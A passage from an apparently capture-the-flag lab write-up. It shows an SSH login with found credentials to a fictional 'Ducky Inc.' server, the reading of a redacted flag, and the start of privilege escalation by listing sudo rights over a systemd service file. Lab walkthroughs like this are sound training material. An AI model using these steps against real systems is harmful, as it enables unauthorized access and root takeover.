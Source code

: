 
I tried them both on the SSH server. The credentials for server-admin worked. 

```bash
$ ssh server-admin@target                                                                                                                                 
The authenticity of host 'target (10.10.223.228)' can't be established.
ECDSA key fingerprint is SHA256:p6l0aKeIJlyHmiqZxt/pRvjb++LAjF9jTDp4ZkSCpOk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target,10.10.223.228' (ECDSA) to the list of known hosts.
server-admin@target's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


8 packages can be updated.
0 updates are security updates.


################################################################################
#                        Ducky Inc. Web Server 00080012                        #
#            This server is for authorized Ducky Inc. employees only           #
#                  All actiions are being monitored and recorded               #
#                    IP and MAC addresses have been logged                     #
################################################################################
Last login: Wed Aug 12 20:09:36 2020 from 192.168.86.65
server-admin@duckyinc:~$ 

server-admin@duckyinc:~$ ls
flag2.txt

server-admin@duckyinc:~$ cat flag2.txt 
REDACTED
```

I was connected to the sever, and I had the second flag.

## Privilege Escalation

Now I needed to find a way to get root access to the server. I looked at sudo permissions and I was able to interact with the duckyinc service. 


```bash
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
server-admin@duckyinc:~$ sudoedit /etc/systemd/system/duckyinc.service
```
